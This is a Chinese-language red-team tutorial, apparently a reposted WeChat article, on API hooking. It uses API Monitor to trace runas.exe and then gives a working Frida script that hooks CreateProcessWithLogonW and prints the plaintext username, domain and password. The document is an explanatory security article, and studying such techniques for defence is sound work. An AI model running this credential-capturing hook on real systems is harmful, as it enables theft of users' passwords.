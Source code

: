 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Ha_bLEoQssILtWjpLYsWCQ)

**STATEMENT**

**声明**

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测及文章作者不为此承担任何责任。

雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

**No.1 简介**

众所周知，Hooking 已经算不上什么新概念了，并且各大 AV/EDR 供应商早就采用这种技术来监控可疑的 API 调用了。在这篇文章中，我们将从攻击性的角度来探讨 API hooking 技术。首先，我们将借助 API Monitor 来考察每个程序所使用的 API 调用，然后，使用 Frida 和 python 来打造我们的终极 hooking 脚本。这篇文章的灵感来自于 Red Teaming Experiments 团队的一篇博客文章。

**No.2 API Monitor**

在监控 api 调用方面，Api Monitor 是一个非常不错的选择，读者可以从这里下载到它。

启动 Api Monitor 后，其主屏幕如下所示：

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuo4RiabGaN2vMTMkMAuDMpicwS3Br6KuCRhsClUymq0tRVTs9RP2iaBmmiaw/640?wx_fmt=png)

如您所见，这里已经选择了所有的库选项，以尽可能多的捕捉 API。下面，让我们从监控一个新的进程开始入手，为此，我们可以选择 runas.exe。

根据微软官方文档的介绍：

```
它允许用户以不同于用户当前登录时所提供的权限来运行特定的工具和程序。
```

对我来说，作为一个开始，这个程序看起来再合适不过了。

打开 runas 并尝试以不同的用户身份登录，我们就能看到上述 API 调用：

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6o36ZrKicEHhCJd5dnJyuoQhriaIiaHW1Fg7M2KkoPluEmkmzGTOHEskTzNuImFcXqqXbcXRyL6eNw/640?wx_fmt=png)

很好，由此可知：在 CreateProcessWithLogonW api 调用中，会存放我们的凭证信息。看一下微软的文档，我们就会发现，第 1 个和第 3 个参数分别用于存储用户名和密码。现在，既然已经知道了这些，那就赶紧编写相应的脚本吧！

**No.3 Frida**

据 Frida 官方网站介绍：

它是用于原生应用程序的 Gresemonkey，或者，用更专业的术语来说，它是一个动态代码插桩工具包。通过它，您可以将 JavaScript 代码或自己的库注入到 Windows、MacOS、GNU/Linux、iOS、Android 和 QNX 系统上的本地应用程序中。此外，Frida 还为您提供了一些构建在 Frida API 之上的简单工具。这些代码既可以按原样使用，也可以根据您的需要进行调整，还可以作为 API 使用方法的范例。

接下来，我们将构建一个 JavaScript 代码段，其作用是从 DLL 库 Advapi.dll 中获取函数的名称。具体脚本如下所示：

```
var CreateProcessWithLogonW = Module.findExportByName("Advapi32.dll", 'CreateProcessWithLogonW') // exporting the function from the dll library

Interceptor.attach(CreateProcessWithLogonW, { // getting our juice arguments (according to microsoft docs)
  onEnter: function (args) {
    this.lpUsername = args[0];
    this.lpDomain = args[1];
    this.lpPassword = args[2];
    this.lpCommandLine = args[5];
  },
  onLeave: function (args) { // getting the plain text credentials 
    send("\\n=============================" + "\\n[+] Retrieving Creds from RunAs.." +"\\n Username    : " + this.lpUsername.readUtf16String() + "\\nCommandline : " + this.lpCommandLine.readUtf16String() + "\\nDomain      : " + this.lpDomain.readUtf16String() + "\\nPassword    : " + this.lpPassword.readUtf16String()+ "\\n=============================");

  }

});
```